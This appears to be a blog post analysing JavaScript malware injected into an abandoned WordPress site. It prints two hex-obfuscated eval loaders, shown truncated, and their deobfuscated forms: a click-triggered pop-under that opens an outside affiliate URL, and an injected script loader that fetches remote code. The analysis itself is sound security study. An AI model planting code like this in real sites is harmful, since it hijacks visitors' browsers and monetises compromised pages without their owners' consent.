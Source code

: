 ```yaml
---
title: Deobfuscating JS Malware
draft: false
---
```


# Deobfuscating JavaScript Malware

Last week I came across an article about
[protecting your site from cryptojacking with CSP +
SRI](https://scotthelme.co.uk/protect-site-from-cryptojacking-csp-sri/). In the
article it showed a crypto mining malware which surprised in how it was made.
Having seen examples of obfuscated JavaScript where code is hidden in base64
encoded strings, this one was completely done in hexadecimal strings.  What was
strange is that:

```
window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x77\x72\x69\x74\x65"]
```

would be interpreted and executed as:

```
window["document"]["write"]
```

How does this work? I have no idea, and will look into it in depth possibly in
another article.

This got me curious to see how much is this used, and the easiest way to find
out is to
[google it](https://www.google.com.au/search?q=%22window%5B%22%5Cx64%5Cx6f%5Cx63%5Cx75%5Cx6d%5Cx65%5Cx6e%5Cx74%22%5D%5B%22%5Cx77%5Cx72%5Cx69%5Cx74%5Cx65%22%5D%22&oq=%22window%5B%22%5Cx64%5Cx6f%5Cx63%5Cx75%5Cx6d%5Cx65%5Cx6e%5Cx74%22%5D%5B%22%5Cx77%5Cx72%5Cx69%5Cx74%5Cx65%22%5D%22&aqs=chrome..69i57.2324j0j8&sourceid=chrome&ie=UTF-8).
Results from the above query was a staggering 2,580,000 results! Itching for
alternate results I tried query other interesting ways; `<script>` returned
[716,000 results](https://www.google.com.au/search?q=%5Cx3c%5Cx73%5Cx63%5Cx72%5Cx69%5Cx70%5Cx74%5Cx3e&oq=%5Cx3c%5Cx73%5Cx63%5Cx72%5Cx69%5Cx70%5Cx74%5Cx3e&aqs=chrome..69i57j69i58.30318j0j9&sourceid=chrome&ie=UTF-8).
And doing `function` returned
[324,000 results](https://www.google.com.au/search?ei=C6iKWtjBFIPG0gT51LfQAw&q=%5Cx66%5Cx75%5Cx6e%5Cx63%5Cx74%5Cx69%5Cx6f%5Cx6e&oq=%5Cx66%5Cx75%5Cx6e%5Cx63%5Cx74%5Cx69%5Cx6f%5Cx6e&gs_l=psy-ab.3...94943.111149.0.113291.21.20.0.0.0.0.1701.6786.2-1j0j1j1j2j2j1.8.0....0...1c.1.64.psy-ab..13.0.0....0.cYXtMg4Czeg).

I lot of the first page results are from sites about cybersecurity or malware
analysis. But digging through the pages I started spotting infected websites.
Randomly choosing a site and opening it through google's cache I began digging
through the source. Immediately I spotted two things, the malware and the site is
running in WordPress. I have nothing strongly against WordPress, it's just one
of those sites that you have to always be on top of, ensuring you keep it up to
date and have a strong firewall in place. The site, which seems like it was last
updated in 2011, unfortunately got caught by the malware due to a vulnerability.
There seems no urgent need to contact this business as this site seems to be an
online corpse, anyways I went ahead and analyzed the malware.

The following malware were found:

## Obfuscated malware 1:
```
var _0x3fdb=["\x39\x20\x62\x28\x6B\x29",...shorten for breathability..."\x5C\x77\x2B","\x5C\x62","\x67"];
eval(
    function(_0x3e49x1,_0x3e49x2,_0x3e49x3,_0x3e49x4,_0x3e49x5,_0x3e49x6) {
        _0x3e49x5 = function(_0x3e49x3) {
            return (
            _0x3e49x3< _0x3e49x2?_0x3fdb[4]:_0x3e49x5(parseInt(_0x3e49x3/ _0x3e49x2))
            )+ ((_0x3e49x3= _0x3e49x3% _0x3e49x2)> 35?String[_0x3fdb[5]](_0x3e49x3+ 29):_0x3e49x3.toString(36))
        };

        if(!_0x3fdb[4][_0x3fdb[6]](/^/,String)) {
            while(_0x3e49x3--) {
                _0x3e49x6[_0x3e49x5(_0x3e49x3)] = _0x3e49x4[_0x3e49x3]|| _0x3e49x5(_0x3e49x3)
            };

            _0x3e49x4= [
                function(_0x3e49x5){
                    return _0x3e49x6[_0x3e49x5]
                }
            ];

            _0x3e49x5= function() {
                return _0x3fdb[7]
            };

            _0x3e49x3= 1
        };

        while(_0x3e49x3--) {
            if(_0x3e49x4[_0x3e49x3]) {
                _0x3e49x1= _0x3e49x1[_0x3fdb[6]]( new RegExp(_0x3fdb[8]+ _0x3e49x5(_0x3e49x3)+ _0x3fdb[8],_0x3fdb[9]),_0x3e49x4[_0x3e49x3])
            }
        };

        return _0x3e49x1

    }(_0x3fdb[0],62,63,_0x3fdb[3][_0x3fdb[2]](_0x3fdb[1]),0,{})
);
```

## Obfuscated malware 2:
```
var _0xc3ce=["\x32\x20\x35\x3D\x7B\x61\x3A\x27",...shorten for breathability..."\x5C\x77\x2B","\x5C\x62","\x67"];
eval(
    function(_0xf262x1,_0xf262x2,_0xf262x3,_0xf262x4,_0xf262x5,_0xf262x6) {
        _0xf262x5= function(_0xf262x3) {
            return _0xf262x3.toString(36)
        };

        if(!_0xc3ce[5][_0xc3ce[4]](/^/,String)) {
            while(_0xf262x3--){
                _0xf262x6[_0xf262x3.toString(_0xf262x2)]= _0xf262x4[_0xf262x3]|| _0xf262x3.toString(_0xf262x2)};
            _0xf262x4= [function(_0xf262x5){return _0xf262x6[_0xf262x5]}];
            _0xf262x5= function(){
                return _0xc3ce[6]
            };
            _0xf262x3= 1
        };

        while(_0xf262x3--){
            if(_0xf262x4[_0xf262x3]){
                _0xf262x1= _0xf262x1[_0xc3ce[4]]( new RegExp(_0xc3ce[7]+ _0xf262x5(_0xf262x3)+ _0xc3ce[7],_0xc3ce[8]),_0xf262x4[_0xf262x3])
            }
        };

        return _0xf262x1

    }(_0xc3ce[0],27,27,_0xc3ce[3][_0xc3ce[2]](_0xc3ce[1]),0,{})
)
```

The hex string are shortened as they are quite long. What we can tell from the
following code is that the `eval` is going to execute what the function argument
is going to return which looks like it will translate the hex into something JS
readable. To tell, is by looking at the `toString` functions used. Since it's
iterating through the hex and converting them to string, it was an assuming
guess to know what it is trying to do. Changing `eval` to `console.log` we can
see the returned result and not execute the malicious code.

## Deofuscated malware 1:
```
function getCookie(name){
    var value="; "+document.cookie;
    var parts=value.split("; "+name+"=");
    if(parts.length==2)return parts.pop().split(";").shift();else return false
}
var idToRedirect=document.currentScript.getAttribute('id');
var isToChrome=document.currentScript.getAttribute('data-type');
var contn=0;
if(isToChrome==1){
    if(navigator.userAgent.indexOf("Chrome")!=-1){
        var contn=1
    }
} else {
    var contn=1
}
if(contn==1&&!getCookie("clickund_expert")){
    window.onload=function(){
        document.body.addEventListener('click',function(event){
            var now=new Date();
            var time=now.getTime();
            time+=3600*1000;
            now.setTime(time);
            document.cookie="clickund_expert=1; "+now.toUTCString()+";path=/";
            window.open('http://1aqy.xn--o1aqy.xn--p1ai/stats/fri.php?affid=79803');
            this.removeEventListener('click',arguments.callee,false)
        })
    }
}
```

Quickly analyzing the malware we can safely assume that it's a pop-under
malware. Pop-under's are those annoying pop-ups that are hidden behind a window.
Often are found by a blink of a window when clicking the page or when you close
your browser window to find another browser window open.

## Deofuscated malware 2:
```
var vglnk={key:'ca8b3984fdf6c76dc2fe...muted'};
(function(d,t){
    var s=d.createElement(t);
    s.type='text/javascript';
    s.async=true;
    s.src='//cdn.viglink.com/api/vglnk.js';
    var r=d.getElementsByTagName(t)[0];
    r.parentNode.insertBefore(s,r)
}(document,'script'));
```

The second malware got me a little confused. After researching a little on
Viglink it's an outbound-traffic monetization service for publishers, forums,
and bloggers [sourced from Wikipedia]. It's hard for me to believe that the
original site owner had this script setup themselves as this could be done by
hiding the API key via the backend, so I can assume that some cheeky person has
used a cross site scripting attack to gain some monetization off infected sites.
But for the sake of privacy I've muted out the last few digits of the API key.

I guess the take away from this article is to always update your WordPress
website to prevent cheeky scripts like these.

## Closing notes

This has been a fun little exercise and I plan to revisit this again as the
malware found didn't execute the code in hexadecimal, which is what I saw in the
article found last week. So apologies for going side ways a bit but I thought
that it still holds some value, rather than scrapping it and start writing it
again.
